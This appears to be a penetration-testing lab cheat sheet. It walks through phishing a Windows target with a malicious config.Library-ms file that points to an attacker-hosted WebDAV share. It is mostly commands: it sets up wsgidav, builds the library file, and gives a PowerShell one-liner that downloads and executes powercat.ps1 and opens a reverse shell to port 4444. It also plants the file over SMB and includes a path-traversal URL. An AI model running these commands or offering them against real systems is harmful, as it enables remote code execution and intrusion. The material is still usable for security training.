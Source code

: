 ```yaml
---
IP_KALI: 192.168.45.173
IP_TARGET: 192.168.202.195
---
```

```
pip3 install wsgidav
```

```
mkdir /home/kali/webdav
```

```
touch /home/kali/webdav/test.txt
```

```
/home/kali/.local/bin/wsgidav --host=0.0.0.0 --port=80 --auth=anonymous --root /home/kali/webdav/
```

- confirm that everything is setup by navigating to http://127.0.0.1
Create **config.Library-ms**:
```
<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.173</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```

In powershell on victim machine (automatic_configuration):
- powershell.exe -c "IEX(New-Object System.Net.WebClient).DownloadString('http://<span id="IP_KALI"/>192.168.45.173<span type="end"/>:8000/powercat.ps1'); powercat -c <span id="IP_KALI"/>192.168.45.173<span type="end"/> -p 4444 -e powershell"

Put the file with SMBclient:
- smbclient //<span id="IP_TARGET"/>192.168.202.195<span type="end"/>/share -c 'put config.Library-ms'


http://192.168.226.199:80/../../../../../../../../../../../../windows/iis.log

smbclient -L '//192.168.226.199/' -U '%'

